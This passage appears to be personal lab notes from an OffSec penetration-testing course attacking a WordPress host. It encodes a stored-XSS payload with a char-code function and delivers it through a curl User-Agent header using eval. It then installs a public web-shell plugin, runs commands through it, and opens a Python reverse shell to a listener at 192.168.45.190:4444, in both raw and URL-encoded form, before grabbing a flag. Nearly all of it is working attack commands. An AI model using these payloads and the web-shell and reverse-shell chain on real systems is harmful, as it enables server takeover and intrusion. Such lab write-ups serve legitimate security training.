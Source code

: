 3. PAYLOAD : we need to minify, then encode it
    * minify at https://jscompress.com/
4. Run encoding function in browser dev tools console
```javascript
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```
5. Take encoded output, 
    * decode string with fromCharCode, 
    * run with eval(),
    * Sent to wordpress with curl (proxied with BURP so we can inspect)
    * 
```shell
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,...,...,59))</script>" --proxy 127.0.0.1:8080
```

## 8.5 Capstone
* grabbed WordPress web shell from : https://github.com/p0dalirius/Wordpress-webshell-plugin/blob/master/wp_webshell/wp_webshell.php
* Compressed .php file with zip `zip -r plugin.zip plugin.php`
* Logged into WP as admin, installed the plugin, then activated
* send command as follows
``` bash 
$ curl -X POST 'http://offsecwp/wp-content/plugins/Webshell/Webshell.php?'  --data "action=exec&cmd=id" --proxy 127.0.0.1:8080 
# OUTPUT  {"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","stderr":"" exec":"id"}                                                                                                                                                                                 ```                                    
* in browser `http://offsecwp/wp-content/plugins/Webshell/Webshell.php?action=exec&cmd=id`
* started Kali NC listener `nc -nvlp 4444`
* executed the following python code in webshell, and got a call back

```python
# https://www.revshells.com/, Python #2
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.190",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

# IN Browser 
http://offsecwp/wp-content/plugins/Webshell/Webshell.php?action=exec&cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.45.190%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)%27
```

### FLAG
* Grabbed flag from /tmp/flag `cat /tmp/flag`   OS{d47eec32a0a5ee0d4944db1646f19ca0}
